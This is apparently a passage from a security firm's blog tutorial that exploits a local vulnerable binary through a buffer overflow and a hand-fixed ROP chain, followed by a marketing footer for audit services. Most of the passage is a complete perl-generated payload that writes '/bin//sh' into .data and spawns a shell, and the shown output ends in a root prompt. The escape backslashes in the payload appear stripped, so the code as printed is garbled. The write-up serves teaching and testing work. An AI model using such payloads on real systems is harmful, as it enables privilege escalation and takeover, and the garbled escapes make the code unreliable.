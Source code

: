 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  

In the ROP generated addresses and .data .data + xx, since that is intended for the .data of libc.so.6, so the we changed by the .data binary: 0x0804a018 and successive.

We have another problem, and that is that ROPgadget has made a mistake when creating that ROP, since in the second `pop esi` it picks up .data + 8, and then runs the gadget `xor edx, edx ; pop...;ret`. The problem is that this last gadget contains an `pop esi`that picks up a 0x41414141 placed there for filling (the pop’s between the `xor edx,edx` and the ret have to pick up something harmless, if they won’t load the string of stringing, that’s why it’s necessary place padding), then, the esi refers to -supposedly- .data + 8 in the gadget `mov [esi], edx`, which (containing the esi actually a 0x41414141) supposes a segment violation. It can be arranged by placing in the second 0x41414141 after the gadget `xor edx,edx` the address of .data + 8.

At last we are ready to exploit true:  
``$ /home/arget/vuln "`perl -e 'print "A"x140 . "xeex86x04x08"x4 . ("xaax84x04x08"x2 . "xeex86x04x08")x3 . "xaax84x04x08"x8 . "x1fx32xdfxf7" . "x37x83x04x08" . "x30x6cxfdxf7" . "x2cxf5xddxf7" . "x18xa0x04x08" . "xaeZxdcxf7" . "/bin" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "x2cxf5xddxf7" . "x1cxa0x04x08" . "xaeZxdcxf7" . "//sh" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "x2cxf5xddxf7" . "x20xa0x04x08" . "Nx80xdfxf7" . "AAAA" . "x20xa0x04x08" . "AAAA" . "AAAA" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "xb5xdexddxf7" . "x18xa0x04x08" . "x03x1exe0xf7" . "x20xa0x04x08" . "xaeZxdcxf7" . "x20xa0x04x08" . "x1f2xdfxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "7mxdcxf7"'`"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������ 2��7�0l��,��� ��Z��/bin����AAAAAAAA,��� ��Z��//sh����AAAAAAAA,��� �N���AAAA �AAAAAAAA����AAAAAAAA���� � �� ��Z�� � 2����������������������������������������������7m��  
[root@plata arget]# whoami  
root  
[root@plata arget]#``


At Puffin Security, At Puffin Security, we use the ELITE SECURITY TESTING CONSULTING methodology so you can rest assured that your organization will have the highest level of cloud security. 

Complete the form, and we'll be in touch as soon as possible

[![Lets Audit Button](/assets/uploads/2023/01/Puffin-security-blog-button-lest-audit-2.jpg 'lets Audit Button')](https://hub.puffinsecurity.com/quote)
